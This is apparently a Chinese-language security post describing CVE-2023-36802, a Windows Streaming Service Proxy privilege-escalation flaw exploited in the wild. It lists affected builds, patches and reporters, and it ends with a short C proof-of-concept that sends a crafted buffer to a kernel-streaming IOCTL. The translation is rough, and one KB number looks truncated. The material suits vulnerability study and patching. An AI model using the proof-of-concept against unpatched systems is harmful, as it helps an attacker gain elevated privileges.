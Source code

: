 #  野外0day - CVE-2023-36802：Microsoft 流服务代理权限提升漏洞   
 Ots安全   2023-10-14 09:00  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
## 基础  
  
**披露或补丁日期：**  
 2023 年 9 月 12 日  
  
**产品：**  
窗户  
  
**咨询：** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36802  
  
**受影响的版本：**  
- 没有 KB5030211 或 KB5030214 的 Windows 10  
  
- 没有 KB5030219 或 KB5030217 的 Windows 11  
  
- 没有 KB5030214 的 Windows Server 2019  
  
- 没有 KB5030216 或 KB503025 的 Windows Server 2022  
  
**第一个补丁版本：**  
- 带有 KB5030211 或 KB5030214 的 Windows 10  
  
- 带有 KB5030219 或 KB5030217 的 Windows 11  
  
- Windows Server 2019 与 KB5030214  
  
- 带有 KB5030216 或 KB503025 的 Windows Server 2022  
  
**问题/错误报告：**  
不适用  
  
**补丁 CL：**  
不适用  
  
**Bug 引入 CL：**  
 N/A  
  
**记者：**  
- 夏光辉 (@ze0r) 与河北华测  
  
- Quan Jin (@jq0904) 和 ze0r 与 DBAPPSecurity WebBin 实验室  
  
- Valentina Palmiotti 与 IBM X-Force  
  
- 微软威胁情报  
  
- 微软安全响应中心  
  
## 代码  
  
**概念验证：**  
```
HANDLE h;
HRESULT hr;
DWORD bytesReturned;
char buf[0x100] = {0};

hr = KsOpenDefaultDevice(KSNAME_Server, GENERIC_READ | GENERIC_WRITE, &h);

memset(buf, 'A', sizeof(buf));
*(int32_t *)buf = 1;
*((int64_t *)buf + 3) = 0;
BOOL status = DeviceIoControl(h, IOCTL_FRAMESERVER_INIT_CONTEXT, &buf, sizeof(buf), &buf, sizeof(buf), &bytesReturned, 0);

```
